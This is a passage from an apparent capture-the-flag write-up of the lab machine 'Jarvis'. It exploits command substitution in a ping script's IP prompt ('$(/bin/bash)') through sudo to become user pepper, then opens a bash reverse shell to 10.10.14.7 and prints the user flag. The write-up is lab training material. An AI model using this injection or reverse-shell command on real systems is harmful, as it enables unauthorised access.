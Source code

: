 Reviewing the code in the script, we find the vulnerable function "exec\_ping", which prompts for an IP address, then checks for forbidden characters, before passing it to the ping command as a parameter. Since we control the "command" parameter, we should be able to use command substituion here, since we cannot use any of the forbidden symbols.&#x20;

For more information on command substitution check out the following links:

{% embed url="https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html" %}

{% embed url="http://www.compciv.org/topics/bash/variables-and-substitution" %}

After some trial and error, we managed to get a shell as user "pepper" using the following commands:

```
www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(/bin/bash) 
127.0.0.1 $(/bin/bash)
pepper@jarvis:/var/www/html$ id
id
pepper@jarvis:/var/www/html$ whoami
whoami
pepper@jarvis:/var/www/html$ pwd
pwd
pepper@jarvis:/var/www/html$ 

```

Using command substitution, we are able to get a shell as the user "pepper", however, the shell does not print the output of commands to stdout. To get around this, we can use the shell to get a new reverse shell as "pepper". First, start another netcat listener, then run the following command:

```
// pepper@jarvis:/var/www/html$ /bin/bash -i >& /dev/tcp/10.10.14.7/8080 0>&1
/bin/bash -i >& /dev/tcp/10.10.14.7/8080 0>&1

```

In the new listener, we get a shell as "pepper", and we can grab the user flag:

```
└─$ nc -nvlp 8080
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8080
Ncat: Listening on 0.0.0.0:8080
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:44922.
pepper@jarvis:/var/www/html$ id
id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/var/www/html$ cd ~
cd ~
pepper@jarvis:~$ cat user.txt
cat user.txt
2afa36c4f05b37b34259c93551f5c44f
pepper@jarvis:~$ 
```